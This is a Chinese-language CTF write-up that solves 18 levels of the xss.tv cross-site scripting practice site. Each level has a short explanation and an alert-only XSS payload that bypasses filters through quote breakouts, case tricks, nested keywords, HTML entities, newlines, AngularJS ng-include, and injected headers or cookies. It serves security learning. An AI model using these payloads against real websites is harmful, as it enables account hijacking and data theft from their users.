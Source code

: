 ```yaml
---
title: "xss.tv Writeup"
date: 2018-08-04T00:00:00+08:00
draft: false
tags: ['ctf','xss']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


[test.xss.tv](http://test.xss.tv/)

最短 xss 平台的题目, 一共20关.

19关和20关没做, 都是 xsf, 之前审计过 flash 文件也没啥好印象.

这个相对于之前的 xss challenges 真是一点 Hint 都没有, 不过可以显示出 payload 的长度.

<!--more-->

## level 1

最简单的.

`<svg onload=alert(0)>`

## level 2

输出在 value 内, 闭合标签后再插入 payload.

也可以用 on 事件, 不过这是下一题的考点.

`"><img src=0 onerror=alert(0)>`

## level 3

单引号闭合.

`1' onmouseover='alert(0)`

## level 4

双引号闭合.

`" onmouseover="alert(0)`

## level 5

on 事件被转义成 `o_n`, script 标签也被转义成 `scr_ipt`.

换一个姿势.

`"><a href=javascript:alert(0)>`

## level 6

on href src 都被加上了下划线.

大小写绕过.

`<a HrEf="javascript:alert(0)">click</a>`

## level 7

这题没有转义, 只是把 on href src script 替换成空, 但只替换了一次.

`"><a hrhrefef="javascscriptript:alert(0)">click</a>`

## level 8

关键字都被加上了下划线, 用 html 的自解码机制就可以绕过.

`javasc&#114;ipt:alert(0)`

## level 9

keyword 中没有 `http://` 就显示为非法链接.

其它的都和上题一样.

`javasc&#114;ipt:alert(&#34;http://&#34;)`

## level 10

查看源代码发现有三个隐藏参数, `t_link t_history t_sort`, 其中只有 `t_sort` 可控.

由于标签是 hidden 的就不能触发 on 事件, 所以要改回 text 状态.

`1" type="text" onmouseover="alert(0)`

## level 11

隐藏参数多了个 `t_referer`, 抓包修改 referer 即可.

`1" type="text" onmouseover="alert(0)`

## level 12

抓包修改 user-agent.

`1" type="text" onmouseover="alert(0)`

## level 13

打开后发现多了个 cookie `user=call me maybe`, 直接修改 cookie 重新访问页面.

`1" type="text" onmouseover="alert(0)`

## level 14

这题做的很迷, 打开后直接就是 401 认证, 乱输几个 payload 也没屌用.

在网上看了 writeup 后才发现是图片 exif 信息的 xss.

估计网站已经关闭了, 就直接跳过吧.

## level 15

查看源代码发现 ng-include 这个参数, 百度一会发现这是 angularjs 的语句, 好像和 php 的文件包含差不多.

src 直接包含第一关的内容传参 keyword 为 payload, 并没啥屌用, 后来才发现是 script 标签包含 angularjs 所在的网站被墙了, 恰好又是我大谷歌的地址.

包含的时候要加上单引号.

`'level1.php?keyword=<svg onload=alert(0)>'`

## level 16

反斜杠空格什么的都被替换成了 `&nbsp;`,  两个换行符就可以干掉它.

`<svg%0a%0aonload=alert(0)>`

## level 17

写的是 xsf, 其实只要在 arg02 后面加上 payload 就行了.

`1 onmouseover=alert(0)`

## level 18

同 level 17.

`1 onmouseover=alert(0)`
